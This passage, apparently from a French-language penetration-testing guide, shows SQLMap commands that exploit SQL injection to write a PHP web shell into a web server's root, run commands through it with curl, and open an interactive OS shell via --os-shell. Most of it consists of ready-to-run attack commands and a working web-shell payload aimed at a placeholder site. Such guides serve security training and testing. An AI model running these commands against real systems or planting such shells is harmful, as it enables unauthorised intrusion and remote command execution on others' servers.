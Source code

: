 * Plus difficile car souvent désactivée par défaut dans les systèmes DBMS modernes.
* Prérequis pour MySQL :
  * Désactivation de `--secure-file-priv`.
  * Privilèges d’écriture dans le répertoire cible.
*   Commande SQLMap pour écrire un fichier :

    {% code overflow="wrap" %}
    ```bash
    echo '<?php system($_GET["cmd"]); ?>' > shell.php
    sqlmap -u "http://www.example.com/?id=1" --file-write "shell.php" --file-dest "/var/www/html/shell.php"
    ```
    {% endcode %}
*   Résultat : Le fichier est écrit, et vous pouvez accéder à la webshell :

    ```bash
    curl http://www.example.com/shell.php?cmd=ls+-la
    ```

***

### <mark style="color:blue;">**2. Exécution de commandes OS**</mark>

SQLMap peut fournir une interface interactive pour exécuter des commandes sur le système distant.

**Commande SQLMap pour un shell OS :**

```bash
sqlmap -u "http://www.example.com/?id=1" --os-shell
```

* Méthodes utilisées :
  * Déploiement d’une backdoor ou d’une fonction UDF (User Defined Function).
  * Utilisation de requêtes SQL spécifiques (e.g., `xp_cmdshell` dans MS SQL Server).
*   Exemple d’interaction :

    ```
    os-shell> ls -la
    ```

**Techniques spécifiques :**

*   Pour choisir une technique d'injection spécifique (par exemple, `Error-based`) :

    ```bash
    sqlmap -u "http://www.example.com/?id=1" --os-shell --technique=E
    ```
* SQLMap peut détecter automatiquement :
  * Le langage web (e.g., PHP).
  * Le répertoire racine du serveur web (e.g., `/var/www/html`).

***

### <mark style="color:blue;">**3. Cas pratique : Lecture et écriture avec SQLMap**</mark>
